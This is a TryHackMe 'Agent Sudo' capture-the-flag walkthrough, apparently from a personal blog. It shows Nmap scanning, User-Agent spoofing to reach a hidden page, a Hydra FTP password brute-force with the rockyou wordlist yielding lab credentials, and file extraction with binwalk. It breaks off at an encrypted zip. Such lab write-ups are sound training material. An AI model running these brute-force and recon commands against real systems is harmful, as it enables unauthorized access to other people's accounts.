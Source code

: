 ```yaml
---
title: Agent Sudo | TryHackMe WriteUp
date: 2024-05-30
categories: [Walkthrough]
tags: [TryHackMe]
---
```


# Agent Sudo | TryHackMe WriteUp

![image](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/d2c9057e-ec75-4e46-93c2-9e88350f1c96)


**Lab URL:** [Agent Sudo](https://tryhackme.com/r/room/agentsudoctf)

## Scenario

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

**Target IP Address:** 10.10.61.20

## Initial Nmap Scan

Run the initial Nmap scan to identify open ports and services:

```bash
nmap -A 10.10.61.20 > nmap
```

The results of the Nmap scan:

```plaintext
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-30 10:47 IST
Nmap scan report for 10.10.61.20
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/30%OT=21%CT=1%CU=30825%PV=Y%DS=5%DC=T%G=Y%TM=6658
OS:0C2B%P=x86_64-unknown-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508S
OS:T11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=
OS:68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=
OS:M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   104.26 ms 10.17.0.1
2   ... 4
5   254.98 ms 10.10.61.20

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.71 seconds
```

## Analysis

Open ports and running services:

- **21/tcp**: FTP (vsftpd 3.0.3)
- **22/tcp**: SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3)
- **80/tcp**: HTTP (Apache httpd 2.4.29)

## Next Steps

A web server is running on port 80. Let’s open it and investigate further.

[Access the web server on port 80](http://10.10.61.20).

![Screenshot from 2024-05-30 10-52-30](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/cbe38abb-008a-439b-9f99-0cfb6392e441)

Upon visiting the webpage, it displays an announcement indicating to check the `/agent_C_attention.php` page using a specific User-Agent. The instructions hint that the User-Agent should be the codename "C".

To intercept the request and change the User-Agent, I used Burp Suite's Intruder.

![Screenshot from 2024-05-30 10-53-19](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/a311ddb0-f341-4d6d-b17d-f2a269f2dd7a)

Here's how the modified HTTP request looks like:

```
GET / HTTP/1.1
Host: 10.10.61.20
User-Agent: C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

When I accessed the `/agent_C_attention.php` page with the appropriate User-Agent, it revealed a hidden message.

![Screenshot from 2024-05-30 10-53-24](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/7c0c8451-afee-48a3-86a0-827261a8469b)

```
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.61.20
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
![Screenshot from 2024-05-30 10-53-50](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/88f1b2d6-b287-4a92-bbb8-bf7100e5353c)

![Screenshot_20240530_120552](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/d0d7244d-7dbf-4f18-90a4-45bdb1ad2e5e)


Now we have a username, Chris, and it’s supposed to have a weak password, so now we can Bruteforce FTP with Hydra, using any of the below commands to resolve the password.

```
┌──(root㉿neo)-[~]
└─# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.61.20  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-30 10:54:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.61.20:21/
[STATUS] 148.00 tries/min, 148 tries in 00:01h, 14344251 to do in 1615:21h, 16 active
[21][ftp] host: 10.10.61.20   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-30 10:56:51
```

username : chris
password : crystal

Now we know the password for the Agent, we can log in through FTP.

```
┌──(root㉿neo)-[~]
└─# ftp 10.10.61.20  
Connected to 10.10.61.20.
220 (vsFTPd 3.0.3)
Name (10.10.61.20:nijith): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16534|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||20361|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*************************************************************************************************************************************************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.03 KiB/s)
mget cute-alien.jpg [anpqy?]? 
229 Entering Extended Passive Mode (|||5045|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*************************************************************************************************************************************************| 33143       67.14 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (45.44 KiB/s)
mget cutie.png [anpqy?]? 
229 Entering Extended Passive Mode (|||40027|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*************************************************************************************************************************************************| 34842       68.73 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (36.18 KiB/s)
ftp> 
```

```
┌──(root㉿neo)-[~/AgentSudo]
└─# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

By viewing the “To_agentJ.txt” file, the message was a login

The password for the chris is stored in the fake picture.

So we use “Steghide” to retrieve some hidden info and also checked by “ExifTool” for the “cutie.png” file, but nothing came up. Trying to unzip it with unzip cutie.png, we get an error message: skipping: To_agentR.txt need PK compat. v5.1 (can do v4.6)

I used 7zip: 7z x cutie.png to try and extract it, but we get a password prompt.

After we tried with “binwalk,” and we got a zip file inside the “cutie.png” file and extracted it from “cutie.png,” but it was encrypted.









